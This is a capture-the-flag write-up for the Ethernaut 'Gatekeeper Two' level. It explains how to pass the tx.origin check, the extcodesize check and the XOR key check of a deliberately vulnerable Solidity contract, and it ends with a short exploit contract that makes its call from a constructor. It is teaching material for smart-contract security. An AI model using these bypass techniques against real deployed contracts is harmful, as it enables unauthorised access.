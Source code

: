 ![](https://ethernaut.openzeppelin.com/imgs/BigLevel14.svg)

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.
##### Things that might help:
- Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
- The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [here](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
- The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [here](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

Solution:
## Analysis

### Gate One

```sol
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

This modifier ensures that the `msg.sender` should not be equal to `tx.origin`. This is similar to [Level 04 - Telephone](https://blog.dixitaditya.com/ethernaut-level-04-telephone).

To make sure our `msg.sender` and `tx.origin` are different, we need to create an intermediary contract that will make function calls to the Gatekeeper contract. This will make our caller's address the `tx.origin` and our deployed contract's address will be the `msg.sender` as received by the Gatekeeper.

---
### Gate Two

```sol
modifier gateTwo() {
    uint x;
    assembly { 
        x := extcodesize(caller()) 
    }
    require(x == 0);
    _;
}
```

#### extcodesize:

In Solidity, we can use low-level codes by using assembly in YUL. They can be used inside `assembly {...}`. `extcodesize` is one such opcode that returns the code's size of any address.

#### caller():

This is the address of the call sender (except in the case of delegatecall).

In the modifier shown above, the variable `x` is used to store the size of the code on the `caller()`'s address, i.e., the contract which will be making a call to Gatekeeper Two's instance. We need to use another contract to make sure we pass the validation in the first gate.

The `x` variable is being checked to make sure that the size of the contract's code is 0, in other words, an [EOA](https://blog.solidityscan.com/distinguishing-eoa-and-smart-contracts-securely-911dc42fdf13) should make the call and not another contract.

So how do we satisfy both gate 1 and 2's criteria?

This is where constructor's come into play. During a contract's initialization, or when it's constructor is being called, its runtime code size will always be 0.

So when we put our exploit logic and call it from inside a constructor, the return value of `extcodesize` will always return zero. This essentially means that all our exploit code will be called from inside of our contract's constructor to go through the second gate.

---
### Gate Three

```sol
modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
}
```

This is a simple XOR operation and we know that `A XOR B = C` is equal to `A XOR C = B`. Using this logic we can very easily find the value of the unknown `_gateKey` simply by using the following code:

```sol
bytes8 myKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (uint64(0) - 1));
```

Time to put everything inside our constructor.

---
## The Exploit

Here's our final [exploit code](https://github.com/az0mb13/ethernaut-foundry/blob/master/src/level14.sol):

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract LetMeInTwo {

    constructor () public {
        GatekeeperTwo level12 = GatekeeperTwo(0x1D29C74Cfb0752329d2EE8B56c5CE916FeD9ac8d);
        bytes8 myKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (type(uint64).max));
        level12.enter(myKey);        
    }
}
```

Let's deploy the contract using the command. Once this is deployed, the constructor will be triggered automatically completing the instance.

___
Way to go! Now that you can get past the gatekeeper, you have what it takes to join [theCyber](https://etherscan.io/address/thecyber.eth#code), a decentralized club on the Ethereum mainnet. Get a passphrase by contacting the creator on [reddit](https://www.reddit.com/user/0age) or via [email](mailto:0age@protonmail.com) and use it to register with the contract at [gatekeepertwo.thecyber.eth](https://etherscan.io/address/gatekeepertwo.thecyber.eth#code) (be aware that only the first 128 entrants will be accepted by the contract).